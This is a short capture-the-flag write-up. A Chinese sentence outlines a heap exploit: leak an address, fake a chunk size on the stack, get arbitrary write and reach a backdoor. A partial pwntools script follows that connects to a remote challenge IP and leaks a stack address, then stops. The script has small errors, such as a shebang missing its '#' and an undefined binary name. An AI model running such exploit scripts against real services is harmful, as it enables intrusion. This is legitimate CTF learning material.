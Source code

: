 泄露地址后修改栈上的内容为0x21，将chunk分配到栈上实现任意地址写，修改判断条件执行后门函数

exp：

```python
!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=0

if local:
    p=process("./"+binary_name)
else:
    p=remote('81.70.195.166',10003)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("choice > ",str(num))
def add():
    cho(1)
def change(idx,size):
    cho(3)
    sla("Index:",str(idx))
    sla("word count:",str(size))
def show():
    cho(4)
def delete(idx):
    cho(2)
    sla("Index:",str(idx))
def change2(addr):
	cho(5)
	sla("Which disk?", str(addr))

add()
add()
delete(0)
show()
stack = int(ru('\n')[19:-1],16)
print(hex(stack))

```